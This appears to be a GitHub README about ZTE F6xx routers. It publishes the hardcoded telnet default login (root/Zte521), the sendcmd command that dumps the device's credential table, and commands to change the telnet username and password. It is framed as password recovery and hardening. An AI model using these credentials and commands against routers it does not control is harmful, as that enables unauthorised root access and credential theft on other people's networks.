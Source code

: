 #  [![creatorb](https://cdn2.iconfinder.com/data/icons/software-development-glyph-black/2048/5396_-_Bug_in_Application-64.png )](https://postimg.org/image/u69xjk8nn/) ZTE F6** bug

I dont want to talk to much, it isn't how to hack wifi, all about what i am explained here it just little bug on zte f6** router devices... no crack, no break, no hack but by telnet we rock.

Required:
  - telnet
  - wifi connected

i think it can be another way to get back your lost password on gui panel of your router device.

> This bug's started

> with zte f6xx default password

> username : root

> password : Zte521

> you can bypass it on telnet

> don't panic isn't someone cant access it

> if s/he isn't connected with your wifi right ?

> but can u make sure if one day no one else can access it

> your wifi, your wifi, your wifi ... our wifi


### POC
Open terminal using telnet to connect your gateway (assume: 192.168.1.1).

```sh
/ # telnet 192.168.1.1
/ # username : root
/ # password : Zte521
```

then if you already loged, try to read database user...

```sh
/ # sendcmd 1 DB p DevAuthInfo
```

thats for f609 sometimes have different table name in another devices you can see all db by:

```sh
/ # sendcmd 1 DB p
```

### Patching

Well its all will going ok
since you had known all table and value.

Change username:
```sh
/ # sendcmd 1 DB set TelnetCfg 0 TS_UName NewUserName
```

Change Password:
```sh
/ # sendcmd 1 DB set TelnetCfg 0 TS_UPwd NewPassword
```

Save:
```sh
/ # sendcmd 1 DB save
```
Reboot:
```sh
/ # reboot
```

Well its all how it going, enjoy and stay beware everywhere, btw what news here's my isp have been upgraded some device with no telnet, nice no telnet no Rock-et!

* *more command you can check on folder /bin/ /usr/bin /sbin


### Todos

 - Bash Checker

License
----

MIT


**Free Software, Rock Yeah!**

~ creatorbe
